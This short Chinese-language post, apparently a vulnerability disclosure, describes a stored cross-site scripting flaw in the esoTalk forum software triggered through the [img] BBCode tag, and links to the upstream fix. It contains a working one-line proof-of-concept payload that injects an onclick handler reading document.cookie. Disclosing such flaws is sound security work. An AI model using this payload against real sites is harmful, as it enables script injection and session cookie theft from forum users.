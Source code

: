 ```yaml
---
layout: post
title: Esotalk v1.0.0g4 [img] 所导致的存储型跨站漏洞
---
```


##### About

- Website: [http://esotalk.org/](http://esotalk.org/)
- Github: [https://github.com/esotalk/esoTalk](https://github.com/esotalk/esoTalk)

esoTalk是一款国外拥有众多优势的免费，开源的基于PHP和MySQL下的网页应用。 她的设计极为简介，速度极快，超轻量级别并且有良好的可拓展性。

##### Proof of Concept

这次与 http://1.hackersoul.sinaapp.com/post/ff0000-hsdb-0006.html 稍微有些不同的是，[img] 所导致的：

    [img][url=http://onclick=alert(document.cookie)//.com]http://www.hackersoul.com/image.jpg[/url][/img]##### Fix

[https://github.com/esotalk/esoTalk/issues/401](https://github.com/esotalk/esoTalk/issues/401)

![http://ww1.sinaimg.cn/large/c334041bjw1eqyhs08k8fj20pi0bnjss.jpg](http://ww1.sinaimg.cn/large/c334041bjw1eqyhs08k8fj20pi0bnjss.jpg)